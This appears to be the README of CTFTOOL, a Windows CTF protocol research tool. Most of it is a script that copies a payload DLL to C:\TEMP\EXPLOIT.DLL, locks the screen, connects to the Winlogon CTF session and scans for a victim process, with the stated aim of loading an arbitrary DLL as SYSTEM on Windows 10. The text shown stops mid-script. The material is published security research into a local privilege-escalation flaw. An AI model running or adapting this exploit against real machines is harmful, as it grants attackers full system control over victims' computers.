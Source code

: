 # CTFTOOL

`script .\scripts\ctf-consent-system.ctf`
![](./ctftools.gif)

`file ./scripts/ctf-logonui-system.ctf`

```
# This script launches loads an arbitrary dll as SYSTEM on win10 x64 by
# switching to the Winlogon Desktop, and then exploiting the login screen
# via the CTF session.
# vim: syntax=sh

print Attempting to copy exploit payload...

# This exploit runs LoadLibraryA(C:\TEMP\EXPLOIT.DLL) as SYSTEM.
run XCOPY PAYLOAD64.DLL C:\TEMP\EXPLOIT.DLL*

# Print a warning if that didnt work.
repeat rc print
repeat rc print !!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
repeat rc print !!! THIS EXPLOIT REQUIRES C:\TEMP\EXPLOIT.DLL TO EXIST !!!
repeat rc print !!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
repeat rc print
print
print The screen will lock to trigger the login screen in 5 seconds...

sleep 5000

# We trigger the login using SendInput(VK_ESCAPE), this doesn't require
# any privileges because we still own the Desktop until then.
lock

# Connect to the ctf service for the Winlogon desktop.
connect Winlogon sid

# List all the avaialble clients.
scan

# Wait for the desired victim process to connect and make it the default thread.
```